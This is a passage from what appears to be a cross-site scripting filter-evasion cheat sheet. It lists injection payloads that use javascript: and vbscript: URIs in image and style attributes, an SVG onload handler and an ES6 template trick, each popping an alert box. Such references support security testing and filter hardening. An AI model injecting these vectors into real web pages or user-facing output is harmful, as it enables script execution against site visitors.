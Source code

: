 <pre>&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;
</pre>

## <span id="IMG_Dynsrc" class="mw-headline">IMG Dynsrc</span>

<pre>&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;
</pre>

## <span id="IMG_lowsrc" class="mw-headline">IMG lowsrc</span>

<pre>&lt;IMG LOWSRC="javascript:alert('XSS')"&gt;
</pre>

## <span id="List-style-image" class="mw-headline">List-style-image</span>

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

<pre>&lt;STYLE&gt;li {list-style-image: url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS&lt;/br&gt;
</pre>

## <span id="VBscript_in_an_image" class="mw-headline">VBscript in an image</span>

<pre>&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;
</pre>

## <span id="Livescript_.28older_versions_of_Netscape_only.29" class="mw-headline">Livescript (older versions of Netscape only)</span>

<pre>&lt;IMG SRC="livescript:[code]"&gt;
</pre>

## <span id="SVG_object_tag" class="mw-headline">SVG object tag</span>

<pre>&lt;svg/onload=alert('XSS')&gt;
</pre>

## <span id="ECMAScript_6" class="mw-headline">ECMAScript 6</span>

<pre>Set.constructor`alert\x28document.domain\x29```
</pre>
